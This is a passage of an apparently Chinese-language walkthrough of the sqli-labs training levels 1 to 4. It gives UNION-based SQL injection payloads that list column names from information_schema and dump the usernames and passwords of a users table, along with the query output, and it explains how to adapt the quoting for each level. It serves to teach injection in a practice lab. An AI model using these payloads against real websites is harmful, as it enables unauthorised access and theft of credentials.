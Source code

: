 猜测`users`表存放着用户数据。用`information_schema`数据库中的`columns`表，爆`security`数据库中`users`表的所有列名：

```sql
id=1' AND 1=2 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'),3 --+
=> SELECT * FROM users WHERE id='1' AND 1=2 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'),3 -- ' LIMIT 0,1
			-- Login name: id,username,password		-Password: 3
```

根据列名爆全表：

```sql
id=1' AND 1=2 UNION SELECT 1,(SELECT GROUP_CONCAT(username) FROM security.users),(SELECT GROUP_CONCAT(password) FROM security.users) --+
SELECT * FROM users WHERE id='1' AND 1=2 UNION SELECT 1,(SELECT GROUP_CONCAT(username) FROM security.users),(SELECT GROUP_CONCAT(password) FROM security.users) -- ' LIMIT 0,1
			-- Login name: Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
			-- Password: Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

## §2.2 第2关 不绕过

先按正常流程试一遍：

- `id=1`，正常
- `id=1'`，报错，`Wrong syntax near '' LIMIT 0,1' at line 1`
- `id=1''`，报错，`Wrong syntax near ''' LIMIT 0,1' at line 1`

至此可推断，SQL语句肯定没有形如`'id'`的部分，而是直接将`id`暴露在外。只需将第1关中的payload从`id=1'`改为`id=1`即可，其余步骤同上。

## §2.3 第3关 绕过`('')`

先按正常流程试一遍：

- `id=1`，正常
- `id=1'`，报错，`Wrong syntax near ''1'') LIMIT 0,1' at line 1`
- `id=1''`，正常

因为两个单引号正常，所以一定有``''`。容易发现，相比与第2关，单引号报错多了一个右括号。将`1'`看作一个整体，报错信息给出的部分语句形如`'$id') LIMIT 0,1`，立即可以推测出语句为`WHERE ?=('$id')`。只需将第1关中的payload从`id=1'`改为`id=1')`即可，其余步骤同上。

## §2.4 第4关 绕过`("")`

先按正常流程试一遍：

- `id=1`，正常
- `id=1'`，正常
- `id=1''`，正常

再试一下双引号：

- `id=1"`：报错，`Wrong syntax to use near '"1"") LIMIT 0,1' at line 1`
-  `id=1""`：正常

